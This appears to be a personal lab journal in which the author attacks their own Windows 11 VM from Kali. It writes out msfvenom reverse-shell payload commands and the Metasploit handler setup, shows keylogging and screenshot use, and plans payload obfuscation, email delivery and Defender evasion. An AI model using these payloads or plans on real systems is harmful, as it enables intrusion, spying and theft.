










<h>remote pc hacking mini project</h>
-   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   

-   Lets confirm our ip to generate payloads

    -   

    -   It is 192.168.7.132

-   Lets generate the payload

    -   

-   Lets set up the listener in metasploit. I first run msfconsole

    -   

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   

-   If we go to our attacker machine, we get something

    -   

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   

    -   Also ran ipconfig to get networking information

    -   

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
